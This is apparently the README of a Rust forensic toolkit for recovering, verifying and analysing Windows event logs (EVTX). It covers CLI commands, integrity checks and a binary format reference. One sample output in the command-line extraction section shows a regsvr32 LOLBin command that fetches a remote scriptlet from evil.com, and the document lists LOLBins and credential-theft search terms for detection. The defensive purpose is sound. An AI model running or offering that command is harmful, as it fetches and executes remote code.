

[](https://github.com/SecurityRonin/winevt-forensic/stargazers)
[](LICENSE)
[](https://github.com/SecurityRonin/winevt-forensic/actions/workflows/ci.yml)
[](https://www.rust-lang.org/)
[](#install)
[](https://github.com/sponsors/h4x0r)

# winevt-forensic

**Recover the logs first. Analyze them second.**

Every detection tool assumes the event log is intact. In a real incident it often isn't — cleared, truncated, partially overwritten, or encrypted mid-stream by ransomware. `winevt-forensic` recovers what can be recovered, verifies structural integrity, and then analyzes events with threat-hunting–focused CLI commands.

```bash
cargo install winevt-cli

# One-click triage: carve + verify + extract + hayabusa, output JSON/HTML
ev4n6 report /evidence/Security.evtx

# Analyze a directory, an E01 image, or a single EVTX file
ev4n6 timeline /evidence/
ev4n6 extract --ioc /evidence/Security.evtx
ev4n6 extract --wmi /evidence/Security.evtx
```

**[Full documentation →](https://securityronin.github.io/winevt-forensic/)**

---

## Install

**Cargo**
```bash
cargo install winevt-cli
```

**From source**
```bash
git clone https://github.com/SecurityRonin/winevt-forensic.git
cd winevt-forensic
cargo build --release
./target/release/ev4n6 --help
```

**Library crates**
```toml
[dependencies]
winevt-core      = "0.1"   # types + binary format constants
winevt-integrity = "0.1"   # structural anomaly detection
winevt-carver    = "0.1"   # record carving from files, bytes, disk images
winevt-analyze   = "0.1"   # timeline, sessions, frequency, IOC extraction
```

---

## Input Auto-Detection

Every `ev4n6` subcommand accepts any of:

| Input | What happens |
|-------|-------------|
| `file.evtx` | Parsed directly |
| `directory/` | All `*.evtx` files inside are walked recursively |
| `image.E01` / `.Ex01` | NTFS filesystem extracted; all EVTX files parsed |
| Any other blob | Raw carve for `ElfChnk` magic; recovered chunks written to temp EVTX |

Add `--carve` (global flag) to any command to additionally scan unallocated space for deleted/overwritten EVTX records.

---

## Command Reference

### `ev4n6 verify` — integrity check before you trust the timeline

```bash
ev4n6 verify /evidence/Security.evtx
```

```json
[
  { "ChunkChecksumMismatch": { "chunk_offset": 69632, "computed": 2881145975, "stored": 3735928559 } },
  { "RecordIdGap": { "chunk_offset": 135168, "expected": 4097, "found": 4201 } }
]
```

Exits 0 if clean, 1 if indicators found.

---

### `ev4n6 info` — file structure summary

```bash
ev4n6 info /evidence/Security.evtx
```

```json
{
  "file_header": { "chunk_count": 17, "next_record_id": 4312 },
  "stats": { "chunks_found": 17, "chunks_valid": 14, "chunks_corrupt": 3, "records_recovered": 4021 },
  "indicators": [ ... ]
}
```

---

### `ev4n6 timeline` — chronological event stream

```bash
ev4n6 timeline /evidence/Security.evtx
ev4n6 timeline --filter-eid 4624 --after 2024-01-01T00:00:00Z --before 2024-02-01T00:00:00Z /evidence/
ev4n6 timeline --limit 100 /evidence/Security.evtx
ev4n6 timeline --stream /evidence/Security.evtx   # JSONL, one event per line
```

Flags:
- `--filter-eid <EID>` — return only events with this event ID
- `--after <RFC3339>` — exclude events before this timestamp
- `--before <RFC3339>` — exclude events at or after this timestamp
- `--limit <N>` — return at most N events
- `--stream` — JSONL output (one JSON object per line, no wrapping array)

---

### `ev4n6 login` — logon session correlation

```bash
ev4n6 login /evidence/Security.evtx
ev4n6 login --logon-type 3 /evidence/Security.evtx   # network logons only
ev4n6 login --mermaid /evidence/Security.evtx         # Mermaid graph diagram
```

Correlates EID 4624 (logon) / 4634 (logoff) pairs into sessions with duration, source IP, username, and domain.

---

### `ev4n6 frequency` — event ID distribution (least-frequent-first)

```bash
ev4n6 frequency /evidence/Security.evtx
ev4n6 frequency --process /evidence/Security.evtx    # count by process name (EID 4688)
ev4n6 frequency --anomaly /evidence/Security.evtx    # z-score anomaly detection
ev4n6 frequency --anomaly --min-z 3.0 /evidence/     # custom z-score threshold
```

Default order is **least-frequent-first (LFO)** — rare events surface first, which is where threats hide. To get most-frequent-first, pipe through `jq` or `sort`.

```json
{
  "by_event_id": [
    { "event_id": 4698, "count": 1,    "description": "Scheduled task created" },
    { "event_id": 4769, "count": 12,   "description": "Kerberos service ticket" },
    { "event_id": 4624, "count": 3841, "description": "Logon" }
  ]
}
```

---

### `ev4n6 extract` — targeted indicator extraction

All modes are mutually exclusive.

#### Output formats

`--format` picks the rendering. It defaults to the **human** `table` on a terminal
and to the **machine** `json` when stdout is piped or redirected, so a run you
read is aligned columns and a run you pipe is unchanged JSON:

| `--format` | View | Notes |
|---|---|---|
| `table` | human | Aligned columns; long cells elided char-safely (`…`), control and bidi characters neutralized. Default on a terminal. |
| `json` | machine | Pretty-printed JSON array. Default when piped. |
| `jsonl` | machine | Newline-delimited JSON, one object per line — for Splunk HEC, the Elasticsearch bulk API, and `jq`. Same encoding as `--stream`. |
| `csv` | machine | Header row plus one row per record. |

Machine views carry every value verbatim and never truncate; only the `table`
view elides for width.

```bash
ev4n6 extract --cmdline /evidence/Security.evtx                  # piped → json
ev4n6 extract --cmdline --format table /evidence/Security.evtx   # aligned columns
ev4n6 extract --cmdline --format jsonl /evidence/Security.evtx | jq .image
```

`--format ndjson` is accepted as a hidden alias of `jsonl`, so anything already
written against that spelling keeps working.

#### IOC extraction

```bash
ev4n6 extract --ioc /evidence/Security.evtx
```

Extracts IP addresses, domain names, and file hashes from event fields. Exits 1 if any IOCs found.

#### PowerShell script blocks

```bash
ev4n6 extract --powershell /evidence/Microsoft-Windows-PowerShell.evtx
```

Reassembles fragmented EID 4104 script block events. Applies basic deobfuscation (backtick removal, string concatenation). Add `--no-deobfuscate` to get raw blocks.

#### WMI persistence

```bash
ev4n6 extract --wmi /evidence/Microsoft-Windows-WMI-Activity.evtx
```

Extracts EID 5857 (provider loaded), 5858 (error), 5860 (temporary subscription), 5861 (permanent subscription). EIDs 5860/5861 are the persistence-relevant events.

#### Scheduled tasks

```bash
ev4n6 extract --scheduled-task /evidence/Security.evtx
```

Extracts EID 4698 (task created) and 4702 (task updated), including the raw XML `TaskContent` which may embed VBScript or JScript.

#### Process command lines

```bash
ev4n6 extract --cmdline /evidence/Security.evtx
```

Extracts EID 4688 process creation events with full command lines. Flags LOLBin invocations (`wscript.exe`, `cscript.exe`, `mshta.exe`, `regsvr32.exe`, `rundll32.exe`, `certutil.exe`, `msiexec.exe`, `bitsadmin.exe`, `forfiles.exe`, `pcalua.exe`).

```json
[
  {
    "timestamp": "2024-01-15T14:23:01Z",
    "pid": 4812,
    "parent_pid": 1234,
    "image": "C:\\Windows\\System32\\regsvr32.exe",
    "command_line": "regsvr32.exe /s /u /i:http://evil.com/payload.sct scrobj.dll",
    "parent_image": "C:\\Windows\\System32\\cmd.exe",
    "is_lolbin": true
  }
]
```

#### ATT&CK technique tags

```bash
ev4n6 extract --attack-tags /evidence/Security.evtx
```

Maps event IDs to MITRE ATT&CK technique IDs using built-in rules.

---

### `ev4n6 search` — full-text event search

```bash
ev4n6 search "mimikatz" /evidence/Security.evtx
ev4n6 search --regex "lsass|sekurlsa" /evidence/Security.evtx
ev4n6 search --stream "lateral" /evidence/
```

---

### `ev4n6 diff` — compare two EVTX files

```bash
ev4n6 diff before.evtx after.evtx
```

Reports events present in one file but absent from the other. Useful for comparing before/after a suspected log manipulation.

---

### `ev4n6 process-tree` — visualise parent-child process relationships

```bash
ev4n6 process-tree /evidence/Security.evtx
ev4n6 process-tree --mermaid /evidence/Security.evtx
```

---

### `ev4n6 repair` — recover partial EVTX files

```bash
ev4n6 repair /evidence/Security.evtx /output/Security-repaired.evtx
```

Skips chunks that fail CRC32 verification; re-sequences record IDs in surviving chunks; writes a valid EVTX file. Reports `chunks_total`, `chunks_recovered`, `chunks_skipped`, `records_recovered`.

---

### `ev4n6 report` — one-click triage

```bash
ev4n6 report /evidence/Security.evtx
ev4n6 report --carved /evidence/Security.evtx      # also carve corrupt chunks
ev4n6 report --format html -o report.html /evidence/
ev4n6 report --hayabusa-bin /opt/hayabusa /evidence/
```

Runs: integrity check → carving (if `--carved`) → IOC extraction → ATT&CK tagging → optional Hayabusa scan → structured JSON/HTML output.

---

## Exit Codes

| Code | Meaning |
|------|---------|
| 0 | Clean — no indicators / detections found |
| 1 | Detections — IOCs, integrity violations, or suspicious events found |
| 2 | Processing error (corrupt input, parse failure) |
| 3 | Path not found |

Scriptable: `ev4n6 verify /evidence/*.evtx; [ $? -eq 0 ] && echo "clean"`

---

## Structural Integrity Checks

`winevt-integrity` checks anomalies at the binary level — raw facts, not forensic conclusions:

**Chunk header CRC32 mismatch** — the stored checksum at offset `0x78` does not match CRC32 of bytes `0x00..0x78`. The chunk header was modified after it was written.

**Record ID gap** — `LastEventRecordNumber` of chunk N + 1 does not equal `FirstEventRecordNumber` of chunk N+1. Records between those IDs are absent from the file.

**File header inconsistency** — `NextRecordId` in the file header is lower than the highest `LastEventRecordId` seen across all chunks. The header was rewritten after records were written.

**Out-of-order timestamps** — a record's timestamp is earlier than the previous record's timestamp within the same chunk. Monotonicity violated.

**Log cleared (EID 1102 / 104)** — the standard Windows event indicating the Security or System log was explicitly cleared.

---

## Where This Fits

This is not a detection-rule engine. [Hayabusa](https://github.com/Yamato-Security/hayabusa) does Sigma-based threat hunting and MITRE ATT&CK tagging at scale. `ev4n6` handles the recovery and structural analysis layer that runs before detection tools.

| | [winevt-forensic](https://github.com/SecurityRonin/winevt-forensic) | [evtx](https://github.com/omerbenamram/evtx) | [python-evtx](https://github.com/williballenthin/python-evtx) | [hayabusa](https://github.com/Yamato-Security/hayabusa) | [Log Parser Studio](https://github.com/microsoft/LogParserStudio) |
|--|:-:|:-:|:-:|:-:|:-:|
| Runs on Linux / macOS | ✅ | ✅ | ✅ | ✅ | — |
| Single static binary | ✅ | ✅ | — | ✅ | — |
| No Python / .NET runtime | ✅ | ✅ | — | ✅ | — |
| Recovers corrupt chunks | ✅ | — | — | — | — |
| Carves from raw disk / memory | ✅ | — | — | — | — |
| E01/EWF image support | ✅ | — | — | — | — |
| CRC32 checksum verification | ✅ | — | — | — | — |
| Record ID gap detection | ✅ | — | — | — | — |
| Logon session correlation | ✅ | — | — | — | — |
| PowerShell block extraction | ✅ | — | — | — | — |
| WMI persistence detection | ✅ | — | — | — | — |
| LOLBin detection | ✅ | — | — | — | — |
| IOC extraction | ✅ | — | — | — | — |
| LFO threat hunting | ✅ | — | — | — | — |
| One-click triage report | ✅ | — | — | — | — |
| JSON output | ✅ | ✅ | — | ✅ | — |
| JSONL streaming | ✅ | — | — | — | — |
| SQL query interface | — | — | — | — | ✅ |
| Sigma-based detection rules | — | — | — | ✅ | — |
| MITRE ATT&CK tagging | ✅ | — | — | ✅ | — |
| Free (no cost) | ✅ | ✅ | ✅ | ✅ | ✅ |
| Open source | ✅ | ✅ | ✅ | ✅ | — |

---

## Crate Structure

<details>
<summary>Show crate layout</summary>

| Crate | What it does |
|-------|-------------|
| [`winevt-core`](crates/winevt-core/) | Binary format constants (`ELFFILE_MAGIC`, `ELFCHNK_MAGIC`, `RECORD_MAGIC`), domain types (`EvtxEvent`, `LogonSession`), `IntegrityIndicator` enum. Zero external deps. |
| [`winevt-integrity`](crates/winevt-integrity/) | Detection algorithms — `detect_record_id_gaps()`, `verify_chunk_header_checksum()`, `check_timestamp_monotonicity()`, `check_file_header_consistency()` |
| [`winevt-carver`](crates/winevt-carver/) | EVTX chunk/record recovery from corrupt files, raw bytes, disk images. `carve_from_bytes()`, `carve_from_file()`, `verify_integrity()`. |
| [`winevt-memory`](crates/winevt-memory/) | Types and analysis for EVTX/ETW data recovered from memory dumps. `MemoryRecoveredChunk`, `RecoveredEtwSession`, `detect_etw_tampering()`. |
| [`winevt-analyze`](crates/winevt-analyze/) | Higher-level analysis — `timeline()`, `sessions()`, `frequency()`, `ioc_extract()`, `wmi_events()`, `scheduled_tasks()`, `process_cmdlines()`, `search()`, `diff()`, `process_tree()`. |
| [`winevt-binxml`](crates/winevt-binxml/) | BinXML decode and validation utilities. |
| [`winevt-triage`](crates/winevt-triage/) | E01/EVTX extraction pipeline for `ev4n6 report`. |
| [`winevt-cli`](crates/winevt-cli/) | `ev4n6` binary — all subcommands; table / JSON / JSONL / CSV output. |

</details>

---

## Dependency Graph



---

## EVTX Binary Format Reference

<details>
<summary>Show format reference</summary>

### File Header (128 bytes at offset 0)

| Offset | Size | Field |
|--------|------|-------|
| 0x00 | 8 | Magic `ElfFile\0` |
| 0x08 | 8 | FirstChunkNumber |
| 0x10 | 8 | LastChunkNumber |
| 0x18 | 8 | NextRecordId |
| 0x28 | 2 | HeaderBlockSize (0x1000) |
| 0x2A | 2 | ChunkCount |
| 0x78 | 4 | FileFlags (0x1=dirty, 0x2=full) |
| 0x7C | 4 | Checksum (CRC32 of 0x00..0x78) |

### Chunk Header (128 bytes at chunk start, chunk size = 64 KiB)

| Offset | Size | Field |
|--------|------|-------|
| 0x00 | 8 | Magic `ElfChnk\0` |
| 0x08 | 8 | FirstEventRecordNumber |
| 0x10 | 8 | LastEventRecordNumber |
| 0x34 | 4 | EventRecordsChecksum (CRC32 of records area) |
| 0x78 | 4 | HeaderChecksum (CRC32 of 0x00..0x78) |

### Event Record

| Offset | Size | Field |
|--------|------|-------|
| 0x00 | 4 | Magic `\x2a\x2a\x00\x00` |
| 0x04 | 4 | Size (total including header + trailer) |
| 0x08 | 8 | RecordId |
| 0x10 | 8 | Timestamp (Windows FILETIME) |
| 0x18 | … | BinXml payload |
| Size-4 | 4 | CopyOfSize (for backward traversal) |

Records start at chunk offset `0x200`. Each chunk is exactly `0x10000` bytes.

</details>

---

## Related Projects

- **[RapidTriage](https://github.com/SecurityRonin/rapidtriage)** — consumes winevt-forensic for EVTX carving; provides session correlation, frequency analysis, and the `rt` CLI
- **[srum-forensic](https://github.com/SecurityRonin/srum-forensic)** — sister library for Windows SRUM (ESE) forensics
- **[evtx](https://github.com/omerbenamram/evtx)** — full EVTX parser for normal (non-corrupt) files; the right tool when the file is clean
- **[hayabusa](https://github.com/Yamato-Security/hayabusa)** — Sigma-based threat hunting on EVTX; use this after recovering your logs

---

## Acknowledgements

**[Eric Zimmerman](https://www.linkedin.com/in/eric-zimmerman-6965b22/)** whose [EVTX Explorer](https://ericzimmerman.github.io/#!index.md) and [Timeline Explorer](https://ericzimmerman.github.io/#!index.md) tools established the gold standard for Windows event log analysis and documented the format in public tooling.

**[Omer Ben-Amram](https://www.linkedin.com/in/omer-ben-amram-75121661/)** whose [evtx](https://github.com/omerbenamram/evtx) Rust crate proved EVTX parsing in safe Rust was viable and provided an authoritative reference implementation.

**[Sam Rijs](https://github.com/srijs)** for [crc32fast](https://github.com/srijs/rust-crc32fast) — a correct, fast CRC32 implementation in Rust. EVTX uses standard ISO 3309 (same polynomial).

**[Akhil Dara](https://www.linkedin.com/in/akhil-dara/)** — first star, before the build was even finished, let alone advertised. That means something.

---

[Privacy Policy](https://securityronin.github.io/winevt-forensic/privacy/) · [Terms of Service](https://securityronin.github.io/winevt-forensic/terms/) · © 2026 Security Ronin Ltd.
